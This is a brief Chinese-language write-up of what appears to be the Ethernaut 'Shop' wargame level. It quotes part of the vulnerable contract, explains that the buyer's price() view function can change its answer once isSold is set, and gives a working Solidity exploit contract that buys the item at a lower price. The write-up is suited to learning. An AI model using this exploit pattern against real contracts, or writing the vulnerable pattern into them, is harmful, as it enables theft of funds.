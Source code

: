 ```solidity

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### 分析

和之前的一关一样，利用` isSold `来控制` price `的返回值，注意这边` price() `是` view `的，所以只能通过控制流来实现；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Buyer{
    Shop shop;
    constructor(address addr){
        shop = Shop(addr);
    }
    function price() external view override returns (uint256){
        if (shop.isSold() == false){
            return 100;
        } else {
            return 0;
        }
    }
    function Attack() public {
        shop.buy();
    }
}
```

![image-20250207002552644](./assets/image-20250207002552644.png)
